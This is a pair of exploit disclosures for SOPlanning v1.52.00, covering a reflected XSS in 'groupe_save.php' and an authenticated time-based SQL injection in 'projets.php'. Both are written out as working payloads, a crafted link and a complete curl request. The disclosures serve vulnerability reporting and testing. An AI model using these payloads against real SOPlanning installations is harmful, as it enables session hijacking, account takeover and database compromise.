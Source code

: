 Exploit Title: SOPlanning v1.52.00 'groupe_save.php' XSS (Reflected XSS)

Application: SOPlanning

Version: 1.52.00

Date: 4/22/24

Exploit Author: Joseph McPeters (Liquidsky)

Vendor Homepage: https://www.soplanning.org/en/

Software Link: https://sourceforge.net/projects/soplanning/

Tested on: Linux

CVE: CVE-2024-33724

Exploit: https://github.com/fuzzlove/soplanning-1.52-exploits/blob/main/soplanning-XSS-README.txt

Description: SOPlanning v1.52.00 is vulnerable to XSS via the 'groupe_id' parameters a remote unautheticated attacker can hijack the admin account or other users. The remote attacker can hijack a users session or credentials and perform a takeover of the entire platform.

Example Payload:
"><script>alert('LiQUiDSKY')</script><!--

Reflected XSS Link: /soplanning/www/process/groupe_save.php?saved=1&groupe_id="><script>alert('LiQUiDSKY')</script><!--&nom=Project+New

Analysis: The landing page takes into consideration the user input parameter then redirects to a page where the XSS is shown the payload included in the exploit escapes the variable where it is held and comments out the rest to perform a valid reflected XSS attack against any authenticated user including the admin.


----------------------------------------------------------------------------------------------------------------------


Exploit Title: SOPlanning v1.52.00 'projets.php' SQLi
Application: SOPlanning
Version: 1.52.00
Date: 4/22/24
Exploit Author: Joseph McPeters (Liquidsky aka fuzzlove)
Vendor Homepage: https://www.soplanning.org/en/
Software Link: https://sourceforge.net/projects/soplanning/
Tested on: Linux
CVE: CVE-2024-33722
Description: SOPlanning v1.52.00 is vulnerable to Authenticated SQL Injection via the 'projects.php' page.
Instructions: Authenticate to the host, the credentials can be obtained using a CSRF exploit (more info included). Once valid credentials are obtained use either a GET/POST request to send the valid parameters that equal to valid SQLi.
Vulnerable request parameters for request to "/www/projets.php":
filtreGroupeProjet=1&statut[]=todo'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+'Liquidsky'='Liquidsky&rechercheProjet=test
The above parameters can be sent as either a valid GET/POST request to trigger the SQLi.
Example Curl Request To Re-Test SQLi:

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 130' -H $'Origin: http://127.0.0.1' -H $'Connection: close' -H $'Referer: http://127.0.0.1/soplanning/www/projets.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' \
    -b $'dateDebut=23/04/2024; dateFin=23/06/2024; xposMoisWin=0; xposJoursWin=0; yposMoisWin=0; yposJoursWin=0; yposProjets=33; PHPSESSID=ovpbclvbc87uh7anfbq2luf9bi; soplanningplanning_=hhrtf0rgs562vm8rhn5i641481; baseLigne=users; baseColonne=jours; afficherTableauRecap=1; masquerLigneVide=0; statut_projet=%5B%22abort%22%2C%22archive%22%2C%22done%22%2C%22progress%22%2C%22todo%22%5D' \
    --data-binary $'filtreGroupeProjet=1&statut[]=todo\'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+\'Liquidsky\'=\'Liquidsky&rechercheProjet=test' \
    $'http://127.0.0.1/soplanning/www/projets.php'


  Note: Cookies need to be authenticated and request needs to be valid for valid SQLi. This curl request can be used with a proxy to reconstruct a valid request.
